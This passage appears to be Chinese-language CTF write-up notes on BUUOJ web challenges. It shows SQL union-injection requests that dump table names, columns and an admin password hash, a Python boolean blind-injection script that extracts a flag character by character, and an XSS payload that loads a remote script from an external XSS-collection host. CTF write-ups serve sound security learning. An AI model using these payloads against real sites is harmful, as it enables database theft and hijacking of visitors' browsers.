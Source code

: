 ```sh
GET /backend/content_detail.php?id=-1%0aunion%0aselect%0a1,FLAG_COLUMN%0afrom%0actftraining.FLAG_TABLE;# HTTP/1.1
```
但获取到的是空。。。改获取`users`表，用户名和密码登录失败。。。
```sh
GET /backend/content_detail.php?id=-1%0aunion%0aselect%0a1,group_concat(table_name)%0afrom%0ainformation_schema.tables%0awhere%0atable_schema='news';# HTTP/1.1

{"title":"1","content":"admin,contents"}

GET /backend/content_detail.php?id=-1%0aunion%0aselect%0a1,group_concat(column_name)%0afrom%0ainformation_schema.columns%0awhere%0atable_schema='news'%0aand%0atable_name='admin';# HTTP/1.1

{"title":"1","content":"id,username,password"}
```
最后拿到用户名admin密码`{"title":"1","content":"f22052f1061e5e21b134a749e84bdc1c"}`登录取得flag.

### [SQL布尔盲注](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day2%20Web1]Hack%20World)

```py
import requests
import time

url = 'http://6bb7f5fc-177b-4897-80ab-a70f04d0ac47.node5.buuoj.cn:81/index.php'
result = ''
# uuid 36位 + flag{}
for i in range(1, 44): 
    # ascii 0～31：控制字符（不可见，如换行、退格等）
    for j in range(32, 128):
        time.sleep(0.1)
        payload = '(ascii(substr((select(flag)from(flag)),' + str(i) + ',1))>' + str(j) + ')'
        res = requests.post(url, data = {'id': payload})
        # print('respond:', res, res.text)
        if res.text.find('girl') == -1:
            result += chr(j)
            print(i, j, chr(j))
            break
print(result)
```

### [XSS](https://buuoj.cn/challenges#BUU%20XSS%20COURSE%201)
2025年7月访问[内网xss](http://xss.buuoj.cn)已停止服务。。。

书中命令
```sh
<img src="tmp.png" onerror=eval(unescape(/var%20b%3Ddocument.createElement%28%22script%22%29%3Bb.src%3D%22http%3A%2F%2Fxss.buuoj.cn%2FZFnLJY%22%3B%28document.getElementsByTagName%28%22HEAD%22%29%5B0%5D%7C%7Cdocument.body%29.appendChild%28b%29%3B/.source));>
```
```Java
var b = document.createElement("sCript");  // 创建一个 script 元素
b.src = "http://xss.buuoj.cn/ZFnLJY";     // 设置外部脚本地址
// 将 script 插入到 <head> 或 <body> 中
(document.getElementsByTagName("HEAD")[0] || document.body).appendChild(b);
```
